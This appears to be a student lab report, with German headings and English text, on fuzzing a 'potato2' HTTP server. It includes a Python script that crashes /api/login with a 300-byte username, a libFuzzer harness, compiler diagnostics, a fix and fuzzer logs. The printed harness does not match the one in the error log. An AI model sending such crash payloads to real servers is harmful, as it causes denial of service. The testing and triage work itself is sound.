



# Laborbericht: Schwachstellenidentifikation mittels Protokoll-Fuzzing (potato2-Server)

## 1. Einleitung & Methodik
This report documents the analysis and identification of two separate vulnerabilities in the network component (`src/http_server.c` and `src/session.c`) of the **potato2** project. Unlike previous local attacks on the application console (`./potato console`), this approach focuses on automated fuzzing over the network, targeting the HTTP service on port 80 directly.
---

## 2. Schwachstelle 1: Stack Buffer Overflow via `/api/login`

### Test-Skript (`crash_login.py`)

```python
import requests

url = "[http://127.0.0.1/api/login](http://127.0.0.1/api/login)"
bad_username = "A" * 300
payload = {"username": bad_username, "password": "x"}

print("[*] Sending huge payload to /api/login...")

try:
    response = requests.post(url, data=payload, timeout=3)
    print("Response code:", response.status_code)
except Exception as e:
    print("[!] Connection lost! Check the server terminal for a Segmentation fault!")
```




As documented in the screenshots from the testing phase, sending a malformed fuzzing input of 300 bytes (`“A” * 300`) to the `username` parameter results in an immediate denial of service. According to the server logs, the application initially processes the POST request up to the `no such user` validation logic and then abruptly terminates immediately afterward. 
The stack frame is completely overflowed. Sending this large number of characters overwrites the administrative metadata on the stack—the saved return pointer. As soon as the function is about to terminate and attempts to jump back to this manipulated address, the operating system intercepts the illegal memory access and terminates the server process with a `segmentation fault`. This is visually confirmed in the browser by the error message *“Problem loading page”*.


As documented in the code analysis screenshot, in-memory fuzzing of the session management system exposed a critical logical flaw within `src/session.c`, which is flagged by the compiler with the warning `non-void function does not return a value in all control paths`. 

When the `get_session_by_id()` function is fed with randomized, non-existent fuzzer cookie inputs, the internal lookup loop fails, and the program execution reaches the end of the function block (line 64) without hitting an explicit return statement. This triggers classic Undefined Behavior (UB) at the architectural level: instead of returning a safe `NULL` pointer, the function passes back an unpredictable "garbage value" that happened to be left behind in the CPU register. 

While the isolated fuzzer harness does not crash from this (as it discards the return value), it creates a severe vulnerability downstream for the live HTTP server. The web server mistakenly interprets this arbitrary garbage value as a "valid session structure address" and attempts to read or write to that corrupt object location in memory, resulting in unhandled memory faults or critical authentication logic bypasses.



Used Code:
```python
#include <stdint.h>
#include <stddef.h>
#include <string.h>
#include <stdlib.h>

// Deklaration der zu testenden internen Kernfunktion
extern void* get_session_by_id(const char* session_id);

int LLVMFuzzerTestOneInput(const uint8_t *data, size_t size) {
    if (size == 0 || size > 512) return 0;
    
    // Konvertierung der rohen Fuzzer-Bytes in einen validen C-String
    char *mock_cookie = malloc(size + 1);
    if (!mock_cookie) return 0;
    memcpy(mock_cookie, data, size);
    mock_cookie[size] = '\0';

    // Kernlogik direkt im Speicher mit Fuzz-Eingaben füttern
    get_session_by_id(mock_cookie);

    free(mock_cookie);
    return 0;
}
```

### Code Triage for Vulnerability 2 (Undefined Behavior in session.c)
During compilation of the fuzzing harness using `clang`, a critical structural vulnerability was identified via compiler diagnostics in `src/session.c`:
`src/session.c:64:1: warning: non-void function does not return a value in all control paths [-Wreturn-type]`

* **Root Cause:** The function `get_session_by_id()` iterates through active sessions. If a fuzzed/non-existent cookie string is provided, the execution path exits the loop and reaches the end of the block without hitting a return statement. 
* **Impact:** This triggers classic Undefined Behavior (UB). The function returns an unpredictable arbitrary value left over in the CPU register instead of a clean pointer. When the calling web server attempts to read from this unvalidated garbage pointer downstream, it leads to memory corruption or application failure.

* **Fix:** Add a default return statement at the end of the function:
```c
// at the very end of get_session_by_id inside src/session.c
return NULL;

This Output comes from Kali Linux (server did not crash)
```c
┌──(kali㉿kali)-[~/Downloads/potato2-main]
└─$ clang -fsanitize=fuzzer,address -I./src fuzz_session.c src/session.c -o fuzzer_session
fuzz_session.c:18:5: error: use of undeclared identifier
      't_session'
   18 |     t_session *sess = get_session_by_id(mock_cookie);
      |     ^~~~~~~~~
fuzz_session.c:18:16: error: use of undeclared identifier                       
      'sess'
   18 |     t_session *sess = get_session_by_id(mock_cookie);
      |                ^~~~
fuzz_session.c:19:9: error: use of undeclared identifier                        
      'sess'
   19 |     if (sess) {
      |         ^~~~
fuzz_session.c:21:22: error: unknown type name 't_user'                         
   21 |             volatile t_user *u = sess->logged_in_user;
      |                      ^
fuzz_session.c:21:34: error: use of undeclared identifier                       
      'sess'
   21 |             volatile t_user *u = sess->logged_in_user;
      |                                  ^~~~
5 errors generated.                                                             
src/session.c:59:41: warning: comparison of array
      'sessions[i]->session_id' equal to a null pointer is always false
      [-Wtautological-pointer-compare]
   59 |         if(sessions[i] == NULL || sessions[i]->session_id == NULL) 
      |                                   ~~~~~~~~~~~~~^~~~~~~~~~    ~~~~
src/session.c:64:1: warning: non-void function does not                         
      return a value in all control paths [-Wreturn-type]
   64 | }
      | ^
2 warnings generated.                                                           
                                                                                
┌──(kali㉿kali)-[~/Downloads/potato2-main]
└─$ ./fuzzer_session corpus/
INFO: Running with entropic power schedule (0xFF, 100).
INFO: Seed: 1327574267
INFO: Loaded 1 modules   (28 inline 8-bit counters): 28 [0x55975da6deb0, 0x55975da6decc), 
INFO: Loaded 1 PC tables (28 PCs): 28 [0x55975da6ded0,0x55975da6e090), 
INFO:        1 files found in corpus/
INFO: -max_len is not provided; libFuzzer will not generate inputs larger than 4096 bytes
INFO: seed corpus: files: 1 min: 513b max: 513b total: 513b rss: 37Mb
#2      INITED cov: 2 ft: 2 corp: 1/513b exec/s: 0 rss: 38Mb
        NEW_FUNC[1/1]: 0x55975da24bf0 in get_session_by_id (/home/kali/Downloads/potato2-main/fuzzer_session+0x151bf0) (BuildId: e2b462b18197102056fcdbc94e915f82b50faea8)
#7      NEW    cov: 7 ft: 8 corp: 2/807b lim: 513 exec/s: 0 rss: 38Mb L: 294/513 MS: 5 CMP-CrossOver-ChangeBinInt-ShuffleBytes-EraseBytes- DE: "\377\377\377\377"-
#53     REDUCE cov: 7 ft: 8 corp: 2/763b lim: 513 exec/s: 0 rss: 41Mb L: 250/513 MS: 1 EraseBytes-
#61     REDUCE cov: 7 ft: 8 corp: 2/751b lim: 513 exec/s: 0 rss: 41Mb L: 238/513 MS: 3 InsertByte-ChangeBit-EraseBytes-
#62     REDUCE cov: 7 ft: 8 corp: 2/707b lim: 513 exec/s: 0 rss: 43Mb L: 194/513 MS: 1 EraseBytes-
#74     REDUCE cov: 7 ft: 8 corp: 2/621b lim: 513 exec/s: 0 rss: 43Mb L: 108/513 MS: 2 ChangeBinInt-EraseBytes-
#79     REDUCE cov: 7 ft: 8 corp: 2/617b lim: 513 exec/s: 0 rss: 43Mb L: 104/513 MS: 5 ChangeBit-CopyPart-PersAutoDict-CopyPart-EraseBytes- DE: "\377\377\377\377"-
#198    REDUCE cov: 7 ft: 8 corp: 2/588b lim: 513 exec/s: 0 rss: 43Mb L: 75/513 MS: 4 ChangeBinInt-CMP-ChangeBit-EraseBytes- DE: "\001\002\000\000\000\000\000\000"-
#226    REDUCE cov: 7 ft: 8 corp: 2/567b lim: 513 exec/s: 0 rss: 43Mb L: 54/513 MS: 3 CMP-InsertByte-EraseBytes- DE: "\310\000\000\000\000\000\000\000"-
#227    REDUCE cov: 7 ft: 8 corp: 2/566b lim: 513 exec/s: 0 rss: 43Mb L: 53/513 MS: 1 EraseBytes-
#238    REDUCE cov: 7 ft: 8 corp: 2/558b lim: 513 exec/s: 0 rss: 43Mb L: 45/513 MS: 1 EraseBytes-
#258    REDUCE cov: 7 ft: 8 corp: 2/549b lim: 513 exec/s: 0 rss: 43Mb L: 36/513 MS: 5 ChangeBit-ShuffleBytes-ChangeBit-InsertByte-EraseBytes-
#259    REDUCE cov: 7 ft: 8 corp: 2/543b lim: 513 exec/s: 0 rss: 43Mb L: 30/513 MS: 1 EraseBytes-
#262    REDUCE cov: 7 ft: 8 corp: 2/539b lim: 513 exec/s: 0 rss: 43Mb L: 26/513 MS: 3 ChangeByte-ShuffleBytes-EraseBytes-
#267    REDUCE cov: 7 ft: 8 corp: 2/532b lim: 513 exec/s: 0 rss: 43Mb L: 19/513 MS: 5 ShuffleBytes-ChangeBinInt-InsertByte-ChangeBit-EraseBytes-
#280    REDUCE cov: 7 ft: 8 corp: 2/524b lim: 513 exec/s: 0 rss: 43Mb L: 11/513 MS: 3 ChangeByte-ChangeBit-EraseBytes-
#362    REDUCE cov: 7 ft: 8 corp: 2/523b lim: 513 exec/s: 0 rss: 43Mb L: 10/513 MS: 2 ChangeByte-EraseBytes-
#477    REDUCE cov: 7 ft: 8 corp: 2/521b lim: 513 exec/s: 0 rss: 43Mb L: 8/513 MS: 5 ChangeBinInt-InsertByte-PersAutoDict-ChangeByte-EraseBytes- DE: "\001\002\000\000\000\000\000\000"-
#515    REDUCE cov: 7 ft: 8 corp: 2/519b lim: 513 exec/s: 0 rss: 43Mb L: 6/513 MS: 3 CMP-InsertByte-EraseBytes- DE: "e\000\000\000"-
#522    REDUCE cov: 7 ft: 8 corp: 2/517b lim: 513 exec/s: 0 rss: 43Mb L: 4/513 MS: 2 InsertByte-EraseBytes-
#545    REDUCE cov: 7 ft: 8 corp: 2/516b lim: 513 exec/s: 0 rss: 43Mb L: 3/513 MS: 3 ChangeByte-ChangeByte-EraseBytes-
#579    REDUCE cov: 7 ft: 8 corp: 2/515b lim: 513 exec/s: 0 rss: 43Mb L: 2/513 MS: 4 CopyPart-ChangeByte-ChangeByte-EraseBytes-
#581    REDUCE cov: 7 ft: 8 corp: 2/514b lim: 513 exec/s: 0 rss: 43Mb L: 1/513 MS: 2 ChangeBit-EraseBytes-
#1048576        pulse  cov: 7 ft: 8 corp: 2/514b lim: 4096 exec/s: 349525 rss: 458Mb
#2097152        pulse  cov: 7 ft: 8 corp: 2/514b lim: 4096 exec/s: 349525 rss: 461Mb
#4194304        pulse  cov: 7 ft: 8 corp: 2/514b lim: 4096 exec/s: 299593 rss: 461Mb
#8388608        pulse  cov: 7 ft: 8 corp: 2/514b lim: 4096 exec/s: 322638 rss: 461Mb
#16777216       pulse  cov: 7 ft: 8 corp: 2/514b lim: 4096 exec/s: 328965 rss: 461Mb
```


